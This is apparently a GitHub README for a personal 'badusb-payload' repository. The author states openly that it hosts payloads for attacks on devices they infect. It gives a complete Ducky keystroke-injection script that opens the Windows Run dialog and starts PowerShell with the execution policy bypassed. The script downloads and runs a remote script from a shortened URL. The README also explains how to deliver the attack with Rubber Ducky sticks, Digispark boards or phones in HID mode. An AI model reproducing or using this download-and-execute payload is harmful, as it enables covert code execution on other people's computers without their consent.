 # badusb-payload
Move along, i use this simply to host my payload for my badusb attacks. ^^
That means it's most likely very messy code that which has the goal to do my bidding on devices i infect.

To run my code i use this DUCKY script:
```
DELAY 500
GUI r
DELAY 100
STRING powershell -Exec Bypass "iex ((New-Object System.Net.WebClient).DownloadString('https://3.ly/ao519'))"
ENTER
```
The link is shortened so the ducky doesn't have to type such long of a string.
What it does isn't really a big of a deal. It merely does the powershell equivalent of CURLing payload.ps1 in this repository and runs it.
The actual payload is in that script. I hate powershell, by the way. <_<

# HOW this works:
You may use an arduino, a hak5 rubberducky stick OR, if you get lucky, like this humble shigal here, have a phone that supports a kali nethunter kernel which can put your phone into HID mode to do all kinds of funny shenanigans. It then acts as a keyboard and types in what you wish. In my case, it opens the RUN dialogue with win+r, waits 100 milliseconds and executes my powershell payload from the url. Done!

# Arduino Recommendations:
I recommend a DigiStump Digispark, but be careful with it. Always make sure not to kill the bootloader. You have to disconnect it, start the code upload, give it five seconds, plug it in and then the arduino will upload it. It will run your own payload on your own machine, but if you want to keep the arduino intact, please don't be as dumdum as me. Keep it inside until it is fully flashed.
